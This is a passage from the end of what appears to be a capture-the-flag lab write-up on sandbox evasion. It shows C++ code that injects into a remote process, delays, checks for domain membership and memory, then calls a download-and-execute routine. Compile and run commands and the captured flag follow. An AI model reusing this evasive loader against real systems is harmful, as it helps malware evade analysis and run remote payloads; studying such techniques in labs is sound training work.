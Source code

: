 ```cpp
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)memAddr, NULL, 0, NULL);
    if (hThread != NULL) {
        CloseHandle(hThread);
    }

    stream->Release();
    CloseHandle(hProcess);
    return 0;
}

int main() {
    Sleep(60000);

    if (!isDomainJoined()) {
        return 0;
    }

    if (!memoryCheck()) {
        return 0;
    }

    sendHTTPRequest();

    downloadAndExecute();

    return 0;
}
```

We can compile with:

```
cl.exe /EHsc /Fe:SandboxEvasion.exe SandboxEvasion.cpp /link urlmon.lib netapi32.lib
```

After we compile, we can execute it:

```
C:\Users\Administrator\Desktop\Materials>.\SandboxChecker.exe SandboxEvasion.exe
```

We can see this after a while:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250523162517.png)

We got our flag:

```
THM{6c1f95ec}
```

# Wrapping Up
